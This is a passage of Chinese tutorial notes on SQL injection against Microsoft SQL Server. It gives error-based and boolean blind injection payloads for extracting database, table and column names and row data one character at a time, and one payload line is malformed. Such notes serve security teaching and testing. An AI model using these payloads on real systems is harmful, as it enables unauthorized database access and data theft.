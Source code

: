 ###### ⑤具体数据

```sql
#1. 获取数据
	id=1 and 1=(select password from users where id=1) --+
	or
    id=1 and 1=(select quotename(username),quotename(password) from users FOR XML PATH('')) --+
```

#### (3). 布尔盲注

##### a. 涉及函数

> ascii()、substring()

##### b. 注入流程

##### ①数据库信息

###### ②库名长度、库名

```sql
#1. 判断第一个数据库名长度
	1 and len(db_name()) >m --+		#m表示长度
#2. 获取数据库名
	id=1 and (ascii(substring((select top 1 name from sys.sysdatabases),n,1),1,1)=m)  --+	#n表示第几个字符，m表示ascii范围
```

###### ③表名长度、表名

```sql
#1. 判断第一张表名长度
	id=1 and len((select top 1 table_name from information_schema.tables))>10 --+		#m表示长度
#2. 暴力破解第一张表名
	1 and ascii(substring((select top 1 table_name from information_schema.tables),n,1))=m --+	#n表示第几个字符，m表示ascii范围
```

###### ④字段名长度、字段名

```sql
#1. 判断第一张表第一个字段名长度
	id=1 and len((select top 1 column_name from information_schema.columns))>10 --+		#m表示长度
 
使用二分法，判断出字段名长度为2
#2. 暴力破解第一张表第一个字段名
	1 and ascii(substring((select top 1 column_name from information_schema.columns),n,1))=m --+	#n表示第几个字符，m表示ascii范围
```

###### ⑤具体数据

```sql
#1. 判断第一行数据第一个字段的长度
	id=1 and len((select top 1 id from emails))=m --+	#m表示长度
#2. 暴力破解该数据
```
